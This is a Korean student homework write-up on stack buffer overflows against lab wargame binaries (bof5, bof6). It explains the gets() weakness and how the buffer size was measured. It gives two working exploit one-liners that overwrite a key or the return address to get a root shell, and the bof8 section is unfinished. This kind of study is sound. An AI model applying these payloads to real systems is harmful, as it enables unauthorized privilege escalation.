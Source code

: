 # GBC Security_07

## HW #7

### Buffer Overflow
---

#### 0. main idea
*  `gets()`함수와 `strcpy()`함수는 입력받는 data의 크기를 검사하지 않기 때문에, 정해진 메모리의 크기를 초과하여 data가 전달되었을 경우, 초과한 data가 그대로 stack에 저장되게 된다. 이 취약점을 이용한 return address를 원하는 주소로 덮어 씌울 수 있다. 

	> 인자에 buf보다 큰 값을 전달하면, innocent 변수 직전까지 값이 채워져 그 이후 입력한 값이 innocent 변수를 덮어쓸 수 있게 될 것이다. (bof 1 - 5)



#### 1. bof5

> gets()의 취약점 이용함을 알 수 있다.

![bof6](https://user-images.githubusercontent.com/47182864/61315366-93560080-a839-11e9-9110-cae98865dc72.png)

> `gets()`가 차지하는 메모리의 크기를 알아야 한다. 따라서, `innocent의 주소값 - 해당 함수의 시작 주소값`을 해주면 함수가 차지하는 메모리의 크기를 구할 수 있다.

![bof6-2](https://user-images.githubusercontent.com/47182864/61315363-93560080-a839-11e9-8d32-95e7f4f5ed9f.png)

> `system()`에서 인자로 input값인 buf를 받고 있기 때문에, shell로 실행하기 위해서는 shell을 실행시킬 수 있는 명령으로 입력해야 함을 알 수 있다.

![bof6-3](https://user-images.githubusercontent.com/47182864/61315364-93560080-a839-11e9-8a88-28b3b1e15c92.png)

> 따라서, 다음과 같은 명령으로 root shell을 탈취할 수 있다.

```shell
(python -c "print '/bin/sh\x00'+'\x78\x56\x34\x12'*34";cat) | ./bof5
```
> >`/bin/sh\x00` : `/bin/sh`는 shell을 실행시키기 위함이고, `\x00`은 문자열의 끝을 알리는 null byte이다.  
> >`\x78\x56\x34\x12*34` : KEY값 0x12345678을 16진수로 저장하기 위해서는 \x를 사용하여 리틀엔디안 방식으로 기입해야한다. 이 KEY값을 34번 반복하여 입력한다.
> >`cat` : 표준 입력이 끊기지 않도록 해준다.  
> >`|` : 파이프 라인을 이용하여 출력할 값을 표준 출력으로 보낸 후, 다음 프로세스의 표준 입력으로 전달한다.


> [ result ]

![r5](https://user-images.githubusercontent.com/47182864/61317274-a5d23900-a83d-11e9-9094-6429d81e5be9.png)

#### 2. bof6

> gets()의 취약점 이용함을 알 수 있다.  
> system()함수가 shell을 호출하지 않으니, shell코드를 직접 전달해줘야 함을 알 수 있다.

![bof6](https://user-images.githubusercontent.com/47182864/61318142-5a208f00-a83f-11e9-8a1d-3434db18a2d4.png)

> `ret`일 때의 `rsp` 주소값에서 `gets()`의 시작 주소값을 빼서 buf의 크기를 구해준다.

![bof6-2](https://user-images.githubusercontent.com/47182864/61318140-5987f880-a83f-11e9-8d87-2024584d5fd3.png)
![bof6-3](https://user-images.githubusercontent.com/47182864/61318141-5a208f00-a83f-11e9-9c4c-0895c02b07e9.png)

> shellcode:0x601050일 때, 다음과 같은 명령으로 root shell 탈취 가능

```shell
(python -c "print 'G'*136+'\x50\x10\x60\x00\x00\x00\x00\x00'";cat) | ./bof6
```
> >`'G'*136` : G로 136만큼 덮어준다.
> >`\x50\x10\x60\x00\x00\x00\x00\x00` : shell code의 시작 주소를 리틀 엔디안 형식으로 입력해준다 (8byte).

> [ result ]

![r6](https://user-images.githubusercontent.com/47182864/61319738-ca7cdf80-a842-11e9-8371-5d3f63ebdf94.png)

##### +) plus
* 아래와 같이 랜덤한 값을 넣어가며 버퍼의 크기를 예측할 수도 있다.
* 아래에서 135를 입력했을 때는 segmentation fault가 뜨지 않는데, 136을 입력하면 segmentation fault가 뜬다. 이 경우, 135가 buffer의 크기일까? __buffer의 크기는 136이다.__
* 136일때 segmentation fault가 뜨는 이유는, 뒤에 null byte까지 채워져서 그런 것이라고 한다.
![plus](https://user-images.githubusercontent.com/47182864/61319889-3a8b6580-a843-11e9-8d80-fc8d03371d20.png)

#### 3. bof8

내일 해야징 . . 


	
---
### 2. Etc
---
양질의 컨텐츠 , , 찬솔님 최고 __빛 찬 솔__. 

---
### 3. plus
---
참고 및 좋은 자료
<https://redscreen.tistory.com/29>  
쉘코드 만들기
<https://bob3rdnewbie.tistory.com/124>

